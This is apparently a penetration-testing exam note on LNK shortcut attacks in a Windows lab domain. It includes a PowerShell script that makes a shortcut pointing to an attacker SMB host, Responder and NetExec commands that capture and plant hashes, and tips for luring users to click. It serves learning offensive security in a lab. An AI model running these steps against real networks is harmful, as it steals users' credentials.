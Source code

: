 ```yaml
---

# 🪓 **LNK File Attacks Exam Reference**

---
```


## **Summary**

This guide covers how to perform **LNK file attacks** to capture **NTLMv2 hashes** using the **Responder** tool. By creating a **malicious LNK file** and placing it in a shared drive, we trick the target into clicking the file, causing their credentials (username and NTLMv2 hash) to be sent to our attacker machine running Responder. Additionally, it introduces an alternative method using **NetExec** to upload files directly to shared folders via SMB.

### What is a **LNK** file?

A **LNK file** is a **Windows shortcut** file that points to another file or location (like a document, program, or network resource). It doesn't contain the actual file but links to it.

### Why did Responder pick it up?

Even if you don’t **open** or **run** the LNK file, Windows may automatically try to load the **target location** (the file or resource it's pointing to) in the background. This is especially true if the LNK file points to a **network resource** (like our attacker’s machine).

### In our case:

- When the LNK file is **created to point to a remote resource**, Windows will try to access it.
- This triggers **Responder** to capture the **NTLMv2 hash** as Windows attempts to authenticate with that remote resource.

**Summary:**

Even without opening the LNK file, Windows attempts to access the remote resource, which allows **Responder** to capture credentials.

## **Easy-to-Digest Summary of Steps**

Here’s a quick overview of what we did:

1. **Created a malicious LNK file** on the target machine using PowerShell.
2. **Started Responder** on our attacker machine to capture hashes.
3. **Uploaded the LNK file** to a shared drive on the target network.
4. **Waited for the target to click** the LNK file, which sent their NTLMv2 hash to our attacker machine.
5. **Extracted the captured hash** and used it for further attacks.
6. As an alternative, used **NetExec** to directly upload files to shared drives via SMB.

---

## **Detailed Notes**

### **Step 1: Create a Malicious LNK File**

1. Open **PowerShell** with admin rights on the target machine.
2. Run the following script to create the LNK file:
    
    ```powershell
    $objShell = New-Object -ComObject WScript.shell
    $lnk = $objShell.CreateShortcut("C:\\test.lnk")
    $lnk.TargetPath = "\\\\192.168.164.128\\@test.png"  # Points to attacker machine
    $lnk.WindowStyle = 1
    $lnk.IconLocation = "%windir%\\system32\\shell32.dll, 3"
    $lnk.Description = "Test"
    $lnk.HotKey = "Ctrl+Alt+T"
    $lnk.Save()
    
    ```
    
3. **Rename the file** to `~Test.lnk` (the `~` ensures it appears at the top of the folder).

---

### **Step 2: Start Responder on the Attacker Machine**

- On **Kali Linux**, launch **Responder** to capture NTLMv2 hashes:
    
    ```bash
    sudo responder -I eth0 -dPv
    
    ```
    

---

### **Step 3: Upload the LNK File to a Shared Drive**

1. Navigate to the shared folder on the target network (e.g., `\\\\HYDRA-DC\\hackme`).
2. **Upload the malicious LNK file** (`~Test.lnk`) to the shared folder.

---

### **Step 4: Wait for the Target to Click the LNK File**

- When the target clicks the LNK file, their **NTLMv2 hash** is sent back to your attacker machine running **Responder**.
- You’ll see something like this on your attacker machine:
    
    ```
    [SMB] NTLMv2-SSP Username : MARVEL\\fcastle
    [SMB] NTLMv2-SSP Hash     : fcastle::MARVEL:<hash>
    
    ```
    

---

### **Step 5: Extract Captured NTLMv2 Hash**

- The NTLMv2 hash can now be cracked or used for further attacks.

---

### **Alternative Method: NetExec for File Uploading**

- If you have access to shared directories, use **NetExec** to upload files directly:
    
    ```bash
    netexec smb 192.168.164.139 -d marvel.local -u fcastle -p Password1 -M slinky -o NAME=test SERVER=192.168.164.128
    
    ```
    
- **NetExec** will use the built-in **slinky** module to upload your file to a shared drive.

---

## **Abbreviations & Definitions**

- **LNK File**: A Windows shortcut file that links to another file or resource.
- **NTLMv2**: A Windows authentication protocol that can be exploited to capture hashes.
- **Responder**: A tool used for **LLMNR/NetBIOS** poisoning to capture NTLM hashes.
- **NetExec**: A command that allows you to upload files to shared folders using SMB.
- **SMB**: **Server Message Block** - A protocol used for file sharing.

---

## **Critical Mentions & Exam Traps**

- 🚨 **Run Responder before upload**: Always start **Responder** before uploading the LNK file to ensure you’re ready to capture the hash.
- 💡 **Use the `~` symbol**: Adding `~` to the LNK file name ensures it shows at the top of the folder, increasing the chances of the target clicking it.
- 📝 **Verify network conditions**: Ensure the target is on the same network as your attacking machine so that Responder can capture the request.
- 🚨 **Be mindful of target permissions**: Ensure you have the correct permissions to upload files to the shared folder.

---

---
